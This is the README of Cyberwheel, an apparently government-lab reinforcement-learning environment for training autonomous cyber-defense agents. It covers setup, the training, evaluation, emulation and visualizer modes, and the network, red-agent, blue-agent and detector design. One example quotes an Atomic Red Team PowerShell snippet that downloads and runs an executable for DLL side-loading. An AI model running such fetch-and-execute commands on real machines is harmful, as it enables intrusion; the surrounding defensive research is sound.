

<a id="readme-top"></a>

[![Issues][issues-shield]][issues-url]
[![MIT License][license-shield]][license-url]

<!-- PROJECT LOGO -->
<br />
<div align="center">
  <a href="https://github.com/ORNL/cyberwheel">
    
  </a>

  <h3 align="center">Cyberwheel</h3>

  <p align="center">
    A reinforcement learning simulation environment focused on autonomous cyber defense
    <br />
    <br />
    <a href="https://github.com/ORNL/cyberwheel/issues/new">Submit Issue</a>
  </p>
</div>


<!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li>
      <a href="#updates">Updates</a>
    </li>
    <li>
      <a href="#about-cyberwheel">About Cyberwheel</a>
      <ul>
        <li><a href="#built-with">Built With</a></li>
      </ul>
    </li>
    <li>
      <a href="#getting-started">Getting Started</a>
      <ul>
        <li><a href="#prerequisites">Prerequisites</a></li>
        <li><a href="#installation">Installation</a></li>
      </ul>
    </li>
    <li><a href="#usage">Usage</a></li>
    <li><a href="#license">License</a></li>
    <li><a href="#contacts">Contacts</a></li>
  </ol>
</details>

## Updates

### New Features! (Release v2.0)

With the latest major update to cyberwheel, we've implemented various new features, namely Emulation and Multi-Agent support! The first iteration of our emulator environment is now live, with instructions on setup located in `cyberwheel/emulator/README.md`. Cyberwheel environments now also support the ability to train and evaluate multiple RL agents in tandem, allowing you to train an RL Red Agent against an RL Blue Agent, both learning simultaneously. A full list of all of the new features are listed in more detail below:

#### Multi-agent Support
As mentioned above, cyberwheel now supports the ability to train multiple agents in the environment. To do so, you just need to enter the red and blue agents' config filename in the 'red' and 'blue' arguments of the training configuration. You may use any of the RL Red/Blue YAML files in the `cyberwheel/data/configs` agent directories, and the training config YAML files in `cyberwheel/data/configs/environment` as a reference.

#### Emulation
For our emulator, we've incorporated the [FIREWHEEL](https://github.com/sandialabs/firewheel) network emulation tool by Sandia National Laboratories. More information on setting this up and getting it running can be found [here](emulator/README.md).


#### Multi-Network Training
We've also implemented the ability to train an agent on multiple different networks in one training run, by allowing three fixed maximum observation space sizes that an agent will train on. These sizes are:

| Config Argument | Max # of hosts in network | Max # of subnets in network |
| -------- | ------- | --------- |
| `small` | 100 | 10 |
| `medium` | 1000 | 100 |
| `large` | 10000 |  1000 |

This allows the singular policy to train a fixed obs space and action space on many different networks. During training, the network that the agent will train on in a given episode will be randomly selected from the ones listed. During the checkpoint evaluations of the training, evaluations will be run on all networks in the pool in order to judge the agent's individual performance.

#### Next Steps

Looking forward, there are various other features we are planning to add to Cyberwheel, many of which are listed here, along with some QoL changes:

- [ ] Unit Testing
- [ ] More modular red agent killchains
- [ ] Detailed documentation
- [ ] Multi-Agent Support (> 2 RL agents at a time)


## About Cyberwheel

Cyberwheel is a Reinforcement Learning (RL) simulation environment built for training and evaluating autonomous cyber defense models on simulated networks. It was built with modularity in mind, to allow users to build on top of it to fit their needs. It supports various robust configuration files to build networks, services, host types, offensive/defensive agents, and more.

Motivations:
* Extensibility - allowing for modifying and adding various defensive actions and offensive strategies without requiring structural changes to codebase.
* Scalability - supporting training on large networks with minimal performance cost

This environment allows for RL training and evaluations with a large set of configurable arguments to swap out networks, strategies, agents, RL parameters, and more. It also includes a visualization server using dash that allows for evaluations to be visualized in a readable graph display showing agent actions throughout the episodes.

<p align="right">(<a href="#readme-top">back to top</a>)</p>

### Built With

* [![Python][python]][python-url]
* [![Poetry][poetry]][poetry-url]
* [![Gym][gym]][gym-url]
* [![W&B][wandb]][wandb-url]
* [![Dash][plotly-dash]][plotly-dash-url]

<p align="right">(<a href="#readme-top">back to top</a>)</p>

## Getting Started

### Prerequisites

* python==3.10

This project runs on, and has been tested with, Python 3.10. Once installed, poetry should automatically use this version for its virtual environment.

* poetry

Cyberwheel uses poetry to manage and install python packages. For instructions on how to install poetry, visit their [installation page](https://python-poetry.org/docs/#installation).

* graphviz

For the dash server visualization to function, you need graphviz, an open source graph visualization software, installed on your system.

Instructions for installing graphviz can be found in their [documentation](https://graphviz.org/download/).

### Installation

Once all dependencies are installed:

1. If you haven't already, clone the cyberwheel repo with HTTPS
   ```sh
   git clone https://github.com/ORNL/cyberwheel.git
   ```
   or with SSH:
   ```sh
   git clone git@github.com:ORNL/cyberwheel.git
   ```
2. Install packages and resolve dependencies
    ```sh
    poetry install
    ```
3. (Optional) If running into issues with poetry, you can create your own venv and install from requirements.txt
    ```sh
    python3.10 -m venv venv
    source venv/bin/activate
    pip install -r requirements.txt
    ```

*On newer MacOS systems running on Apple Silicon chips, there may be an error installing the `pygraphviz` package, with poetry not finding the graphviz configuration files. You can work around this by pip installing the pygraphviz package manually, explicitly passing graphviz config paths. [This link](https://stackoverflow.com/a/70439868) helped me work through this issue.*
*Feel free to comment out this package in requirements.txt if you want to use cyberwheel without the visualizations and debug this package installation separately.*

<p align="right">(<a href="#readme-top">back to top</a>)</p>

<!-- USAGE EXAMPLES -->
## Usage

To run any cyberwheel scripts, shell into the poetry virtual environment
```sh
poetry shell
```
or activate your venv if not using poetry
```sh
source venv/bin/activate
```

When you want to deactivate the environment with poetry, you can just hit **Ctrl+D**. This will exit the virtual environment shell. If using a venv, just run 
```sh
deactivate
```

### Training a model


For a full list of parameters, you can run
```sh
python3 -m cyberwheel -h
```
or look at the config files in `cyberwheel/data/configs/environment`.

<p align="right">(<a href="#readme-top">back to top</a>)</p>

### Running Cyberwheel

There are 5 modes for running cyberwheel: `train`, `evaluate`, `emulate`, `visualizer`, and `run`

#### Training

To train a model on our environment, you can run
```sh
python3 -m cyberwheel train [config_file.yaml]
```
which will run training with the parameters defined in the YAML config file. It will save the model during evaluations in the `models/` directory. If tracking to Weights & Biases, the model and its checkpoints will be saved on your W&B project, as well as locally. This way, you can also view real-time training progress on your W&B account.

Cyberwheel allows for a wide array of configuration options as arguments that can be passed. These parameters are defined in config files stored in the `cyberwheel/data/configs/environment` directory which you can pass when training, evaluating, or just running cyberwheel. You may also run any parameter in the command line and it will override the parameter stored in the YAML file.

Example:
```sh
python3 -m cyberwheel train train_rl_red_agent_vs_rl_blue_agent.yaml
```
will train both an RL Red and an RL Blue agent using the parameters defined in `cyberwheel/data/configs/environment/rl_red_agent_vs_rl_blue_agent.yaml`

#### Evaluating

You can evaluate a model given the parameters defined in the YAML file or command line. For example, to evaluate the pre-trained RL blue and red agents you just trained, you can run
```sh
python3 -m cyberwheel evaluate evaluate_rl_red_vs_rl_blue.yaml
```
which will evaluate the trained red and blue models using the parameters defined in the config file. In order to evaluate, the parameter `experiment_name` must be set to a model directory that exists `cyberwheel/data/models/{experiment_name}`. If the training run was tracked to Weights & Biases, the model and its checkpoints can also be downloaded from your W&B project as well. The `experiment_name` argument, like all other arguments, can be defined in the config or overridden in the command line like so:

```sh
python3 -m cyberwheel evaluate evaluate_rl_red_vs_rl_blue.yaml --experiment-name TrainRedBlueAgent
```

#### Emulating

The command to run an emulation is essentially the same as the one to run an evaluation, just with the words switched around. You will need to have the emulation environment and FIREWHEEL set up first, the tutorial for which you can find in the emulator directory.

```sh
python3 -m cyberwheel emulate evaluate_rl_red_vs_rl_blue.yaml --experiment-name TrainRedBlueAgent
```

#### Visualizer

To view the visualizations of the evaluations that were run, you can run the visualization server with:
```sh
python3 -m cyberwheel visualizer [PORT_NUM]
```
This will run a dash server locally on the port number passed. You can then visit `http://localhost:PORT_NUM/` to access the frontend. From here, you can find the evaluation you ran in the list, and view the network state over the course of each episode with a step slider.



<p align="right">(<a href="#readme-top">back to top</a>)</p>

#### Running

Another option is to run the cyberwheel environment without any RL components. The two agents that are currently connected to this environment are inactive red/blue agents, meaning the environment is currently running through its steps without any actions being taken. This environment is not as in-depth or exhaustive, but provides a framework to tailor the Cyberwheel environment to your use case. 

```sh
python3 -m cyberwheel run cyberwheel.yaml
```

### Demos

#### Training, Evaluating, and Visualizing your RL Agents
```sh
python3 -m cyberwheel train train_rl_red_agent_vs_rl_blue_agent.yaml
```
This may run long depending on hardware. For demo purposes, you can ctrl-C after a few training iterations or change the `total_timesteps` argument in the config file.

```sh
python3 -m cyberwheel evaluate evaluate_rl_red_vs_rl_blue.yaml
```
This will evaluate the model under the current environment, and save the logs of the evaluation in `cyberwheel/data/action_logs/{graph_name}.csv` If the `visualize` parameter is set to true, this will also generate and store visualizations in `cyberwheel/data/graphs/{graph_name}/` to be viewed later. (Note: The visualization generation has a longer runtime than a basic evaluation, so if you only care about the CSV logs, you can set it to false to greatly speed up the evaluation.)

Once these have run, you can run the server on http://localhost:8050 by running:
```sh
python3 -m cyberwheel visualizer 8050
```
and access the server on your browser to see a list of the available graphs. These are dependent on what is listed in the `cyberwheel/data/graphs/` directory.


## Cyberwheel Design

### Network Design

Networks in Cyberwheel are comprised of routers, subnets, and hosts represented as nodes in a networkx graph​.
* Routers manage network traffic between Subnets.
* Subnets represent the broadcast domain​ and manage network traffic between Hosts.
* Hosts are machines/devices that belong to a subnet​, and they contain a list of running services with ports, CVEs, and other attributes.
 ​Cyberwheel builds networks from a config YAML file.

### RL Blue Agent Design

The RL blue agent is largely focused on deploying Decoys to slow and/or stop red agent attacks throughout the network. The blue agent's actions and logic be configured and defined in a YAML file, allowing for greater modularity. Different configurations of blue agents are defined in `cyberwheel/data/configs/blue_agent/`. Its observation space is defined by the entire network, and alerts that are flagged by detectors it has set up.

### RL Red Agent Design

The RL red agent is built around the Atomic Red Team techniques, with goals that you configure. Different configurations can be found in `cyberwheel/data/configs/red_agent/`. Its observation space is defined by its (initially limited) view of the network as it explores. As it performs certain correct actions, this view can expand up to the size of the network.

### Atomic Red Team Agent Design

The Atomic Red Team (ART) agent is a heuristic agent that has a set of defined rules and strategies that it can use to traverse a network, although its behavior to dictate which Hosts it chooses to target is modular. Its actions are mapped from MITRE ATT&CK Killchain Phases (Discovery, Lateral Movement, Privilege Escalation, Impact) to Atomic Red Team (ART) techniques. We've defined these techniques with a set of attributes mapped from existing cyber attack data. This allows our ART Agent to run a higher level killchain phase (i.e. discovery) on a host, and the environment will cross-reference the target host's attributes with ART Technique attributes. Techniques are valid for the attack by checking:
  - [x] Technique includes the target host's OS in its supported platforms
  - [x] Technique includes the killchain phase in its supported killchain phases
  - [x] Technique can exploit any CVE that is present on the target host

If all of these conditions are met, the agent can successfully run the killchain attack on the host. These ART Techniques include Atomic Tests, which give tangible commands to run in order to execute the given attack. With this methodology, the simulator is able to transform a general killchain phase into a valid set of commands that could be run in
the real world.

<ins> Example <ins>

1. ART Agent runs `Privilege Escalation` on Host.
2. ART Agent runs OS, Killchain Phase, and CVE checks.
3. ART Agent uses ART Technique: DLL Side-Loading Technique
4. ART Agent chooses a random Atomic Test
5. Atomic Test adds the following commands to Host metadata:
```sh
New-Item -Type Directory (split-path "${gup_executable}") -ErrorAction ignore | Out-Null​
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1574.002/bin/GUP.exe?raw=true" -OutFile "${gup_executable}"
if (Test-Path "${gup_executable}") {exit 0} else {exit 1}​
"${gup_executable}”​
taskkill /F /IM ${process_name} >nul 2>&1​
```

### ART Campaign Design

The ART Campaign is very similar to the ART Agent, but its actions are much more specific. Where the ART Agent works with higher-level actions that may filter down into more specific actions, the ART Campaign is defined with a killchain of specific ART Techniques. ART Campaigns can be more helpful for more narrow use cases to simulate a killchain of techniques in a defined network, as well as when testing with emulation. When running emulations, we exclusively train and evaluate with ART Campaigns, due to their granular use case and transferability.

### Detectors and Alerts

Red actions produce Alerts which contain information such as the action's source host, target host, exploited services, and techniques. The blue agent has a detector layer set up with Alerts that detect any red agent action on the network. These detectors can filter out Alerts, add noise, or even create false-positive Alerts. You can use multiple detectors together to capture various red agent behavior. These alerts are then converted into the observation space which the RL agent uses to train.

### Configurations

All configurations are stored in the `cyberwheel/data/configs` directory. You can use config to define the environment, red agents, campaigns, blue agents, decoy types, detectors, host types, networks, and services.

<!-- CONTRIBUTING -->
## Contributing

If you are not familiar with SOLID principles, please read this before contributing. Pretty basic, but makes a huge difference down the road --- [Article on SOLID](https://medium.com/@iclub-ideahub/the-solid-principles-a-guide-to-writing-maintainable-and-extensible-code-in-python-ecac4ea8d7ee).

If you need to add a dependency, this project is packaged with [poetry](https://python-poetry.org/). Please take a few minutes to read about the [basics](https://python-poetry.org/docs/basic-usage/#specifying-dependencies) before adding any dependencies. Do not use pip, do not use requirements.txt. TLDR: use `poetry add <dependency name>`. After adding your dependency, add and commit the new `poetry.lock` file.

<p align="right">(<a href="#readme-top">back to top</a>)</p>

<!-- LICENSE -->
## License

Distributed under the MIT License. See `LICENSE` for more information.

<p align="right">(<a href="#readme-top">back to top</a>)</p>

<!-- CONTACT -->
## Contacts

Sean Oesch - oeschts@ornl.gov

Amul Chaulagain - chaulagaina@ornl.gov

Phillipe Austria - austriaps@ornl.gov

Matthew Dixson - dixsonmk@ornl.gov

Brian Weber - weberb@ornl.gov

Cory Watson - watsoncl1@ornl.gov


Project Link: [https://github.com/ORNL/cyberwheel/](https://github.com/ORNL/cyberwheel/)

<p align="right">(<a href="#readme-top">back to top</a>)</p>

<!-- Accompanying Papers -->
## Papers
[PLACEHOLDER]()

[(2024) Towards a High Fidelity Training Environment for Autonomous Cyber Defense Agents](https://doi.org/10.1145/3675741.3675752)

[(2024) The Path to Autonomous Cyber Defense](https://arxiv.org/pdf/2404.10788.pdf)

<p align="right">(<a href="#readme-top">back to top</a>)</p>

<!-- MARKDOWN LINKS & IMAGES -->
[issues-shield]: https://img.shields.io/github/issues/ORNL/cyberwheel.svg?style=for-the-badge
[issues-url]: https://github.com/ORNL/cyberwheel/issues
[license-shield]: https://img.shields.io/github/license/ORNL/cyberwheel.svg?style=for-the-badge
[license-url]: https://github.com/ORNL/cyberwheel/blob/release/LICENSE

[plotly-dash]: https://img.shields.io/badge/plotly-dash-000000?style=for-the-badge&logo=plotly&logoColor=white
[plotly-dash-url]: https://dash.plotly.com/
[python]: https://img.shields.io/badge/python-000000?style=for-the-badge&logo=python&logoColor=white
[python-url]: https://www.python.org/
[wandb]: https://img.shields.io/badge/W&B-000000?style=for-the-badge&logo=weightsandbiases&logoColor=white
[wandb-url]: https://wandb.ai/site
[gym]: https://img.shields.io/badge/gym-000000?style=for-the-badge&logo=openaigym&logoColor=white
[gym-url]: https://github.com/Farama-Foundation/Gymnasium
[poetry]: https://img.shields.io/badge/poetry-000000?style=for-the-badge&logo=poetry&logoColor=white
[poetry-url]: https://python-poetry.org/